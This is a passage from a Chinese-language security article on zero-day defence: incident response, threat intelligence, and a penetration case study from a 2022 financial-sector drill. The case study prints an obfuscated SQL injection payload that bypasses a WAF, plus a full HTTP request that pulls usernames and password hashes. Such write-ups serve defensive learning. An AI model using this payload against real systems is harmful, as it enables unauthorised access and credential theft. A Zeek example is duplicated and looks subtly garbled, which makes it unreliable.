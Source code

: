   
### 4.4 应急响应与快速处置  
  
- **异常行为监控**  
：实时监控网络流量和主机行为。  
  
-     - 示例：使用Zeek检测异常流量：  
```
zeek -r capture.pcap -e "http.request"
```  
  
  
  
- 示例：使用Zeek检测异常流量：  
```
zeek -r capture.pcap -e "http.request"
```  
  
- **日志审计与取证**  
：通过SIEM（如Splunk）分析日志，溯源攻击。  
  
- **快速封禁**  
：隔离可疑主机/账号，防止进一步渗透。  
  
  
## 五、借助外部能力：情报与合作  
  
- **威胁情报实时更新**  
：订阅外部情报（如FireEye、Talos）获取0day预警。  
  
- **与安全厂商协作**  
：与厂商共享0day样本，提升响应速度。  
  
- **红蓝对抗验证**  
：通过红蓝对抗发现防护薄弱点。  
  
  
## 六、实战案例分析  
### 一、利用未授权访问与SQL注入  
#### 渗透链路复盘  
  
在2022年某金融行业演练中，攻击者通过接口Fuzz发现隐晦的API端点（/api/v2/internal/diag/9f3a2b1c-7d4e-4f8a-b3c2-5e6d7f8e9a0b  
），该端点未在公开文档中披露，仅用于内部调试，但未实现权限验证。攻击者通过构造混淆的SQL注入payload（id=1%20%2f%2a%2a%2f%20UNION%20SELECT%201,username,concat(password)from/**/users--+  
）绕过WAF，提取管理员凭据。利用凭据登录管理后台后，收集后台信息，并通过sqlmap尝试获取os-shell未果，通过后台信息进行漏洞挖掘，发现任意文件上传漏洞和任意文件读取漏洞，获得内网权限。  
  
- **数据包示例（SQL注入绕过WAF）**  
：  
```
GET /api/v2/internal/diag/9f3a2b1c-7d4e-4f8a-b3c2-5e6d7f8e9a0b?id=1%20%2f%2a%2a%2f%20UNION%20SELECT%201,username,concat(password)from/**/users--+ HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
```  
  
响应返回敏感数据：  
```
HTTP/1.1 200 OK
Content-Type: application/json
{"id": 1, "username": "[用户名]", "password": "[hashed_password]"}
```  
  
